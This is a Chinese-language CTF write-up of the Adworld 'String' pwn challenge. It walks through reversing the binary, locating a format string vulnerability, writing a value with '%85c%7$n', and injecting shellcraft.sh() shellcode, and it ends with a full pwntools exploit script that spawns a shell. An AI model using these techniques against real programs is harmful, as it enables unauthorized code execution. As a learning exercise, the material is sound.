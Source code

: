 ```yaml
---
title: 「攻防世界」Pwn - String WriteUp
date: 2021-12-30
tags: ["CTF", "Pwn", "writeup", "wp"]
authors: [nova]
---
```


## 写在开头的碎碎念

捏 🐎 咋这个 Pwn 这么难的啊，看 WP 也看不懂，~~即刻退出 Pwn~~

说归说，至少先把这个攻防世界新手区给它干了

经过几天的~~并不系统的三天打鱼两天晒网的~~学习，现在只能说非常有自信。

**String**应该是攻防世界新手区里最有趣也最难的一题了，开整！

<!--truncate-->

## 开整

### 分析

![exeinfope](https://oss.nova.gal/img/image-20211101153717286.png)

![checksec](https://oss.nova.gal/img/image-20211101153833049.png)

总而言之先扫一遍， 64bit 没有 PIE

先看看 main

![main](https://oss.nova.gal/img/image-20211101153942250.png)

v4 申请了一个**8 字节长**的内存地址，保存的是`68, 85`两个数据，同时它把这两个数据的地址 print 了出来

跟进到`sub_400D72()`看看

![sub_400D72()](https://oss.nova.gal/img/image-20211101154214749.png)

让我们输入名字，但是下面对 s 的长度做了检测所以没办法溢出。

继续看看其他函数，首先是`sub_400A7D()`

![sub_400A7D()](https://oss.nova.gal/img/image-20211101154750528.png)

> 为了训练英语水平这里顺带打个翻译(?)
>
> > 这是一个有名却分外不同寻常的小酒馆。这里空气清新，大理石铺成的地板也很干净。几乎看不到吵闹的客人，家具也没有被在这个世界的其他酒馆寻常可见的打架斗殴所损坏。装饰极其华丽，看着很适合摆在宫殿里，但在这个城市这却是极其平常的。房间中央是天鹅绒覆盖的椅子和长凳，有很大的橡木桌子围绕。一个大告示固定在一根木条后的北面的墙上。在一个角落你发现了一个壁炉。有两个明显的出口：向东，向上。但奇怪的是，并没有人在那，那么你要向哪里走呢？
>
> 这个背景不能说毫无吸引力只能说翻译了是纯纯浪费时间
>
> ~~我是傻宝~~

所以要我们给出选择：`east`Or`up`

但是看下面的代码我们发现了：你只能选择`east`（选择了`up`之后你就会面临无尽之洞），继续接下来看`sub_400BB9()`

![sub_400BB9()](https://oss.nova.gal/img/image-20211101173616709.png)

这里提到了`address`，很容易联想到前面我们的`v4`，估计是要在 v2 和 format 做文章，但是具体怎么操作还不清楚，继续看`sub_400CA6()`

![sub_400CA6()](https://oss.nova.gal/img/image-20211101174119436.png)

这里的 a1 其实就是我们最开始的 v4，所以我们需要让`*v4 = v4[1]`

注意下`((void (__fastcall *)(_QWORD))v1)(0LL);`这行，这里把 v1 转换成了可执行函数（void 为返回值类型，\_\_fastcall 为协议），在这里我们就可以打 shellcode 了。

### Payload

接下来就是如何实现的问题了。

先把前面几个固定步骤的写了

![exp_01](https://oss.nova.gal/img/image-20211102105044906.png)

这里就需要引入格式化字符串的漏洞，[传送门](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-intro/)

我们需要找一下 v4 所在的参数位置，传入 payload

```python
payload = 'AAAA'+'.%x'*10
```

![addr_info](https://oss.nova.gal/img/image-20211102105300535.png)

可以看到我们的`41414141`位于栈内第八个位置，而我们刚才写入的 v4_addr 是位于前一个位置的，此时

就可以构造 payload 使得\*v4=85 了

```python
payload = '%85c%7$n'
```

![return_0](https://oss.nova.gal/img/image-20211102105850378.png)

这时候我们已经满足`sub_400CA6()`中的条件了，那么只需要轻松写入一个 shellcode，就可以拿到 shell 了。

完整 payload:

```python
from pwn import *
context(log_level='debug')

sh = process('./1d3c852354df4609bf8e56fe8e9df316')

sh.recvuntil('secret[0] is ')
v4_addr = int(sh.recvuntil('\n')[:-1], 16)
print(v4_addr)

sh.recvuntil('be:')
sh.sendline(b'yuusya')
sh.sendlineafter('east or up?:\n', b'east')
sh.sendlineafter('leave(0)?:\n', b'1')

# *v4 = 85
sh.sendlineafter("address'\n", str(v4_addr))
payload = '%85c%7$n'
sh.sendline(payload)
sh.recvuntil('I hear it')
context(arch='amd64', os='linux')
sh.sendlineafter('SPELL', asm(shellcraft.sh()))
sh.interactive()
```
